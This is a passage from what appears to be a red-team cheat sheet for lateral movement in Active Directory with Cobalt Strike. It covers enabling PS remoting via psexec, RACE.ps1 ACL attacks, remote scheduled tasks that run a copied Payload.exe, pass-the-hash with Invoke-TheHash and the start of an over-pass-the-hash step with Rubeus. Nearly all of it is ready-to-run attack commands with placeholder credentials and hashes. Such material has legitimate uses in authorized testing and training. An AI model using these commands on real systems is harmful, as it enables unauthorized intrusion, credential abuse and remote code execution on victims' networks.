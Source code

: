 # Enable on remote system 
make_token AD\admin Password123! --> Token with Admin privileges on remote system is required
run psexec.exe \\TestComputer.lab.com -h -s powershell.exe Enable-PSRemoting -Force

# Test remote access
powershell Invoke-Command -ComputerName TestComputer -ScriptBlock { whoami; hostname }
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
Stealthier than above method since it doesn't touch disk
```
powershell-import --> RACE.ps1
make_token AD\Admin password --> This tool requires Admin privileges on the remote system being targeted

powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-jumpbox.lab.com --> Force enable PS remoting for the specific user
powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-jumpbox.lab.com --> (Optional) Force enable WMI for the specific user

# Now we can move laterally in CS with WinRM for the specified user
make_token AD\testuser password
jump [winrm/winrm64] ops-jumpbox.lab.com HTTPSLISTENER
```

Scheduled task lateral movement
```
# First copy payload files to remote system manually
# Create task on remote system
run schtasks /create /tn "MyTask" /sc once /U DOMAIN\username /P Password1! /S target-host.domain.com /tr "cmd.exe /c C:\Windows\temp\Payload.exe"
# Execute remote task
run schtasks /run /tn "MyTask" /S target-host.domain.com
```

[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) - PS tools to perform SMB and WMI pass-the-hash attacks
```
powershell-import 
powerpick Invoke-WMIExec -Target 192.168.100.20 -Domain LAB.com -Username TEST -Hash F6F38B793DB6A94BA04A52F1D3EE92F0 -Command "command or launcher to execute" -verbose
powerpick Invoke-SMBExec -Target 192.168.100.20 -Domain LAB.com -Username TEST -Hash F6F38B793DB6A94BA04A52F1D3EE92F0 -Command "command or launcher to execute" -verbose
```

Over-pass-the-hash with Rubeus
Inject a ticket into memory using known credentials and then move to a system that user has access to
```
# Revert to original token in CS
rev2self
# Create and inject new ticket into memory